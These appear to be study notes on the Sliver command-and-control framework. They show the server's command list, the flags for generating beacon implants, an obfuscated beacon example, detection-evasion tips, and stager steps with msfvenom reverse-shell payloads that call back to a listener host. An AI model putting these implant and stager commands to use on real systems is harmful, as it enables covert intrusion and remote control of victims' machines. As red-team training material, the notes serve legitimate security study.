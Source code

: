 - Start `sliver-server`
- Help options
```bash
[server] sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  kick-operator  Kick an operator from the server
  multiplayer    Enable multiplayer mode
  new-operator   Create a new operator config file
  operators      Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki

```
#### Operator profile

Sliver can differentiate who can connect based on the generated profile from its server. A profile can be generated using the `new-operator` command followed by the operator's name (`-n`) and the listening host IP address (`-l`).

## Armory

The previous section introduced us to the [armory](https://github.com/sliverarmory) portion of `Sliver`. Its capability of having pre-installed .NET binaries ready to be used makes the operators' lives easier. However, one of the drawbacks that one might stumble upon is the detection of the tools. In the future, we may need to think of a way to change the internals of the tools to avoid being detected.

## Beacon vs Session

- beacon responds at fixed intervals
- sessions are interactive
- a beacon can be turned into a session

#### Generating a beacon

```
[server] sliver > generate beacon --help

Generate a beacon binary

Usage:
======
  beacon [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -D, --days               int       beacon interval days (default: 0)
  -d, --debug                        enable debug features
  -O, --debug-file         string    path to debug output
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features  (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -H, --hours              int       beacon interval hours (default: 0)
  -b, --http               string    http(s) connection strings
  -J, --jitter             int       beacon interval jitter in seconds (default: 30)
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -M, --minutes            int       beacon interval minutes (default: 0)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -S, --seconds            int       beacon interval seconds (default: 60)
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings

```

- `-J, --jitter` configures the jitter time of the callback so that the implant will fluctuate based on the value
- `-S, --seconds` sets the time interval of the callback
- beacon modes are `mTLS, HTTP(s), DNS, named pipes, or tcp pivots`
- `--skip-symbols` disables symbol obfuscation

##### Example of generating an obfuscated beacon
```shell-session
generate beacon --http 127.0.0.1 -N http_beacon_obfuscated --os windows
```

#### Listeners
- connect the implant to the C2 server

#### Opsec Note

Though the C2 traffic of Sliver looks legitimate, using HTTPS, MTLS, or WireGuard listeners to establish a more secure channel adds a layer of protection. For the HTTP(S) listener, we can make some modifications to the C2 profile file `~/.sliver/config/http-c2.json`, such as adding a legitimate request or response headers and changing filenames and extensions in URL generation. We can refer to the Sliver wiki to understand the profile file [HTTP(s) under the hood](https://sliver.sh/docs?name=HTTPS+C2).

It is valuable to remember that when interacting with sessions in `Sliver`, the names are usually `RED`, and the beacon ones are in `BLUE`. Knowing that difference can be helpful as the sessions are interactive, and the beacons are not, as mentioned in the previous sections.

### Execute and Execute-Assembly
- both with spawn child processes 

## Privilege Escalation

- https://sliver.sh/docs?name=Aliases+and+Extensions
- Alias is a wrapper around sideload (load and execute a shared library in memory)
- Extensions are artifacts of native code loaded by the implant and passed specific callbacks to return data to the C2 server

- *OPSEC Note: By default, execute-assembly will start a sacrificial process (notepad.exe); this can be changed using the --process and specifying the process.*

## Stager steps

1. start a listener
```bash
mtls -l <port1>
```

2. configure a profile
```bash
profile new --mtls ip:port1 -l -f <option like shellcode> <profile name>
profile new beacon --mtls ip:port1 -f -f <option> <profile name>
```

3. configure stage listeners
```bash
stage-listener -u http://LHOST:<port2> -p <profile name>
stage-listener -u tcp://LHOST:<port3> -p <profile name>
```

4. example payloads with msfvenom 
```bash
msfvenom -p windows/x64/custom/reverse_tcp lhost=LHOST lport=<port3> -f exe -o tcp.exe 
msfvenom -p windows/x64/custom/reverse_winhttp lhost=LHOST lport=<port2> LURI=/path.woff -f exe -o http.exe
```

5. 